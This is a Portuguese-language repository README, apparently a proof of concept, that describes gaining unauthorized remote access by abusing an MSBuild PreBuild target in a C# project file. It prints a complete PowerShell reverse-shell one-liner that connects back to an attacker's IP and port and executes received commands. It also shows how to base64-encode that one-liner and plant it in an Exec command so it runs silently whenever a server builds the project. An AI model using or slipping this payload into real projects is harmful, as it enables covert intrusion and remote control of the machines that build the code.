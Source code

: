 # Advenced Reverse shell C#
Este repositório, contém uma reverse shell escrita em C# comentada com passos que você
deverá fazer para conseguir acesso remoto. Lembrando que a publicação é destinada para fins educacionais.


## Objetivo:
Objetivo deste respositório, é mostrar a POC sobre o ganho de acesso remoto não autorizado
através do compilador MSBuild do Visual Code.


## Processo Geral:
- Verifique se o existe acesso ao MSBuild.
- Verifique as permissões de execução da criação do Projeto.
- Verifique a versão de execução do .NET.

### key Code Features
O código aproveita do arquivo .sln para fazer a execução de código remoto no servidor.

No CSPROJ, existe uma tag em xml que determina quais são as dependencias que o MSBuild terá
que executar antes da compilação do executável. Visando isso, podemos aproveitar desta ação para que
quando o MSBuild passar por ela, execute a nossa reverse shell que neste caso é para o powershell.


ReveseShell: `$client = New-Object System.Net.Sockets.TCPClient("Seu IP",PORTA);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`

Após que ajustar a Revershell conforme Seu IP e PORTA, será necessário encodar em base64 para a execução bem sucedida.

Evento que iremos explorar:

`   <Target Name="PreBuild" BeforeTargets="PreBuildEvent">
        <Exec Command="powershell -e **encode aqui**"/>
    </Target>`

Quando subir para o servidor e o mesmo compilar este código, atente-se de ter um listening para receber a conexão de volta.


## Créditos
[Microsoft - Build events csharp](https://learn.microsoft.com/pt-br/visualstudio/ide/how-to-specify-build-events-csharp?view=vs-2022)
